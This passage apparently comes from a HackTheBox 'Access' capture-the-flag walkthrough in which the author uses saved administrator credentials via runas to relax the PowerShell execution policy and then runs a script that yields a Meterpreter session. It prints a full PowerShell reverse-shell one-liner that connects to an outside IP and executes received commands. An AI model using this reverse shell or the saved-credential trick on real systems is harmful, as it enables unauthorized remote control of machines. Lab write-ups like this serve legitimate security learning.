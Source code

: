 
My session was interrupted in this session. I opened another telnet session and repeated the same steps.

14) To execute the script  “powershell -command .\r.ps1”  however, It didn't work. I got an error basically it said I cannot run Powershell scripts on the machine.


![alt text](/images/htb-Access/cannot-load-exec-powershell-script.png)


However, I found a way to disable it on windows via cmd using  runas.exe  /savecred  /user:Access\Administrator  to run it.

**`runas /savecred /user:access\Administrator "powershell Set-ExecutionPolicy RemoteSigned"`** and that took care of it. Re-running the Powershell -command .\r.ps1  and it worked 


![alt text](/images/htb-Access/meterpreter-half-establised-powershell.png)


This also works

paste it in .ps1 file on target

>$client = New-Object System.Net.Sockets.TCPClient("10.10.12.109",413);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()



My happiness was slammed in the face when I realized that this was not a fully established shell. none of the commands like "load" “shell" or “ls” worked through meterpreter and it was an incomplete connection.

